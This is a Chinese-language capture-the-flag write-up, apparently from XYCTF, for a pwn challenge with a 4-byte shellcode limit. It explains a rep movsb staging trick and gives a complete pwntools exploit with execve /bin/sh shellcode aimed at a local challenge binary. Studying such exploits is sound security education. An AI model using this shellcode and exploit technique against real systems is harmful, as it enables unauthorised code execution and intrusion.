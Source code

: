 ## Intermittent

> 一次性4字节shellcode空间 

- 本来想的是每次用两字节操作两字节跳转到下一个可执行区域 发现不太现实

- 然后发现跳转到执行shellcode的地方的时候寄存器上已经几乎布置好了一些我们需要的值

  ![image-20240422214330654](https://awaqwqa.github.io/img/xyctf/image-20240422214330654.png)

  ![image-20240422214400338](https://awaqwqa.github.io/img/xyctf/image-20240422214400338.png)

- 我们可以利用rep movsb指令 这个指令可以让rsi寄存器的地址开始rcx的字节数据赋值给rdi地址所指的区域 我们可以发现rdx已经有了我们执行shellcode的地址 然后rsi就是我们输入的字符串地址 我们只需要让rdx寄存器的值给rdi 然后触发rep movsb即可 就可以实现shellcode的写入
- rep movsb是两字节 我们用栈传递参数让rdx赋值给rdi 两字节 刚好四字节 那么我们字符串后面填上getshell的shellcode即可

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
context.terminal = ['byobu', 'sp', '-h']


file_name = "./vuln"
url = ""
port = 1111

elf = ELF(file_name)
# p= process(file_name)
p = gdb.debug(file_name,"b *main+273")
# p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))

ru(b"show your magic: ")
shellcode1 = b'\x52\x5F\xF3\xA4'
# nop指令不重要
shellcode2 = b'\x90'*4
shellcode3 = b'\x90'*4
shellcode = shellcode1 +b"\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
sd(shellcode.ljust(0x100,b"\x90"))
ia()
```

